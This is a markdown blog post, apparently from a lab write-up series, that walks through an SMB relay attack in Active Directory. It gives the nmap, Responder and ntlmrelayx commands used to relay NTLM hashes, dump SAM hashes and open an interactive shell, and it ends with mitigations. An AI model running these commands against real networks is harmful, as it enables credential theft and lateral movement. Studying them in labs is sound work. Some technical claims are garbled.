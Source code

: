 ```yaml
---
title: "SMB Relay Attack "
layout: post
category: Active-Directory
tags: [SMB]
excerpt: " "
---
```


# SMB Relay Overview 

A SMB relay attack is where an attacker captures a users NTLM hash and relays its to another machine on the network. Masquerading as the user and authenticating against SMB to gain shell or file access

## **How does an SMB Relay Attack Happen?**  
The SMB Relay attack abuses the NTLM challenge-response protocol. Commonly, all SMB  sessions used the NTML protocol for encryption and authentication purposes (i.e. NTLM  over SMB) . However, most sysadmins switched to KILE over SMB after research proved that the first version of NTLM is susceptible to Man-in-the-Middle attacks, the SMB Relay attack counting among them.  
Now, in normal client-server communication, there are a series of requests followed by  responses. **The idea behind an SMB Relay attack is to position yourself between the client and the server in order to capture the data packets transmitted between the two entities.**  


## **Requirements**  
-  SMB signing must be disabled on the target  
-  Relayed user credentials must be admin on machine



#  SMB Relay Attack 
-  **Discovering Hosts with SMB Signing Disabled**

```bash
sudo nmap -p445,139 --script=smb2-security-mode.nse -T4 192.168.1.0/24
```

![Desktop View](/assets/img/AD_Lab/1 (67).png){: }


**add ip of disable smb to target.txt

-  **Configuring Responder**
Because we have to relay the hash instead of just capturing it responder needs to have both the SMB server turned off and HTTP turned off. Edit the responder config file in **/etc/responder/Responder.conf** and turn off SMB and HTTP and then start responder 

![Desktop View](/assets/img/AD_Lab/1 (68).png){: }

**Run responder** 

```bash 
sudo responder -I eth0 -rdw -v
```

Responder should now look like this:

![Desktop View](/assets/img/AD_Lab/1 (69).png){: }

-  **Setup the relay script**

```bash
sudo ntlmrelayx.py -tf target.txt -smb2support
```

![Desktop View](/assets/img/AD_Lab/1 (70).png){: }

-  **Capturing the hash, relaying it and dumping the local SAM file**

Request a share that does not exist using an admin account. Notice how the script checks if Remote Registry is enabled and if not, enables it, dumps the SAM and then re-disables it.

![Desktop View](/assets/img/AD_Lab/1 (65).png){: }

- now we get SAM hash , we can crack them or pass this hash to gain a shell

![Desktop View](/assets/img/AD_Lab/1 (71).png){: }

**We can then takes these hashes and crack them or we can even attempt a pass-the-hash attack and attempt to gain a shell with the NTLMv2 hash on a different machine on the network.**


### Get Interactive Shell

```bash
sudo ntlmrelayx.py -tf target.txt -smb2support -i
```

![Desktop View](/assets/img/AD_Lab/1 (72).png){: }

- run nc for localhost and  port

```bash
nc 127.0.0.1 11001

-> help
```

![Desktop View](/assets/img/AD_Lab/1 (73).png){: }


# SMB Relay Attack Mitigation
-  Enable SMB Signing on all devices. This can be done via Group Policy
-  Disable NTLM authentication on the network. Use Kerberos instead.
-  Limit Domain Admins to specific task

# Conclusion
SMB relay attacks don’t have the same potency as ransomware such as Ryuk or RobbinHood, but they can provide the necessary ‘backdoor’ to those two and others. As always, play it safe, keep your apps and software up-to-date, and employ great cybersecurity.


# reference
- https://cqureacademy.com/blog/penetration-testing/smb-relay-attack
- https://heimdalsecurity.com/blog/what-is-an-smb-relay-attack/
